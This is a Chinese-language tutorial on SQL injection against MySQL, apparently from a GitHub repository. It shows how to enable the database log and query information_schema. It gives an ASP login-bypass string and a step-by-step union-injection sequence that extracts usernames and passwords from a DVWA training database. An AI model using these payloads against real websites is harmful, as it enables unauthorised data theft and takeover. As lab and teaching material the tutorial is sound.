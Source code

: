 # python-network-programming
### SQL注入
#### 开启mysql日志功能
```text
mysql> show variables like 'general_log%'
    -> ;
+------------------+---------------------------------------------+
| Variable_name    | Value                                       |
+------------------+---------------------------------------------+
| general_log      | OFF                                         |
| general_log_file | c:\phpStudy\PHPTutorial\MySQL\data\test.log |
+------------------+---------------------------------------------+
2 rows in set (0.00 sec)

mysql> set global general_log = 'ON';
Query OK, 0 rows affected (0.02 sec)

mysql> show variables like 'general_log%';
+------------------+---------------------------------------------+
| Variable_name    | Value                                       |
+------------------+---------------------------------------------+
| general_log      | ON                                          |
| general_log_file | c:\phpStudy\PHPTutorial\MySQL\data\test.log |
+------------------+---------------------------------------------+
2 rows in set (0.00 sec)
```
#### 查看mysql日志
windows下使用baretail进行查看 [baretail下载地址](http://www.baremetalsoft.com/baretail/index.php)
#### sql注入原理
可以通过网站存在的查询语句进行构造，为此开发者对其伤透了脑筋，漏洞不光是查询，可能还存在与API、隐藏链接、http头数据、写入数据等。需要对数据包的结构和传递函数比较了解，建议学习的时候把数据库的日志打开，就可以查看到传递到数据库的语句是什么样子的了。 需要记住的information_schema数据库的SCHEMATA、TABLES、COLUMNS。 SCHEMATA表中存放所有数据库的名，字段名为SCHEMA_NAME。 关键函数database() 当前数据库名、version() 当前mysql版本、user()当前mysql用户.
#### 漏洞危害
高危漏洞,可以获取敏感信息，修改信息，脱裤，上传 webshell,执行命令。
#### mysql
默认库information_schema和其中的表SCHEMATA、TABLES和COLUMNS SCHEMATA 存储的是用户创建所有数据库的库名记录数据库库名的字段为SCHEMA_NAME  
select schema_name from information_schema.schemata 查询全部数据库  
select table_schema,table_name from information_schema.tables 查询全部数据库和表的对应  
select table_name,column_name from information_schema.columns; 查询全表对应的字段
#### asp站点万能密码
'or'='or'
#### union注入
1、首先判断是否有注入点?id=1' and 1=1#和?id=1' and 1=2，测试两个返回是否相同，如不同则含有注入漏洞    
2、判断字段数量 1' order by 1#，当返回错误，前一个数值即为最大字段量。  
3、得到字段个数后，进行union注入,id=1' union select 1,2# 如果都显示，说明两个字段都可以进行替换  
4、判断当前所使用的数据库1' union select version(),database()#  
5、查找需要的表 ?id=1' union select table_schema,table_name from information_schema.tables#，把所有数据库的库和表的对应显示出来。  
6、查找表对应的字段?id=1' union select table_name,column_name from information_schema.columns#  
7、查最终数据 ?id=1' union select user,password from dvwa.users#  
***
不定期分享一些python开发,逆向破解、渗透测试相关文章,欢迎大家关注.  
![微信公众号](gongzhonghao.jpg)
***
BUG:dazhuang_python@sina.com